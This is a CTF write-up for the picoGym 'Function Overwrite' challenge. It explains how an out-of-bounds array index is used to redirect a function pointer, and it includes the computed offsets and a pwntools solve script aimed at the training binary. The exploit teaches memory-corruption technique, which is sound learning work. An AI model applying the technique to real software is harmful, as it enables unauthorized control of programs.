 ```yaml
---
slug: function_overwrite
title: Function Overwrite
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Function Overwrite

You can point to all kinds of things in C.

Hint: Don't be so negative

<!--truncate-->

## The Challenge

Executable can be downloaded [here](/files/function_overwrite/vuln) (Right click and open in new tab).

Source code [here](/files/function_overwrite/vuln.c)

The goal of this challenge is to get the flag.

## Analysis

The source code was provided so I went ahead and took a look into it to determine insecure code. On line 82, there is an if statement that references an index of an array based on user input. We can use this to access memory outside the bounds of the array. The array is declared right below a function pointer that is set to `hard_checker`.

## The Solve

Using GDB, I determined the offset from the array `fun` to the `check` function pointer.

![Addresses](/img/function_overwrite/check_fun_addrs.png)

The offset is 0x40 so fun is 64 bytes, or 16 ints, away. In order to modify the value of check to be set to easy_checker, we need to determine the value for `num2` to add to the address of hard_checker.

- Hard check = 0x8049436
- Easy check = 0x80492fc

0x8049436 - 0x80492fc = 0x13A = 314 bytes

We can set `num1` to -16 and `num2` to -314.

For the last piece of the challenge, we need a string where the sum of the values of each character equals `1337`. We have a buffer of up to 127 characters. We can use the highest value character `~` to make as small a string as possible. 

"~" = 126

1337 / 126 = 10.61111111111111

We can use 10 "~" which leaves us with 1337 - (10 * 126) = 77

77 = "M"

The string `~~~~~~~~~~M` = 1337

## Script

```python
#!/usr/bin/env python3

"""
Toast's submission for the picoGym challenge function overwrite.

This script can be used in the following manner:
python3 ./solve.py <REMOTE/LOCAL>

Args:
    param1: LOCAL will operate locally on the user's machine.
            REMOTE will connect to the CTF webserver and grab the flag.
            If no parameter is specified, the program will default to LOCAL.

Returns:
    The flag to solve the challenge.
"""

from pwn import *

exe = ELF("./vuln")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    if args.get('REMOTE'):
        io = remote('addr', 4141)

    else:
        io = process([exe.path])

    return io


def main():
    '''Return the flag.
    '''

    with conn() as io:
        flag = get_flag(io)
        log.success(f"Flag is: {flag}")


def get_flag(io):
    scanf_to_check_offset = -16
    fun_to_check_offset = -314
    io.sendline(b'~~~~~~~~~~M')
    io.recvline()
    io.sendline(b'-16 -314')
    io.recvline()
    flag = io.recvline()
    return flag.decode()


if __name__ == '__main__':
    main()
```
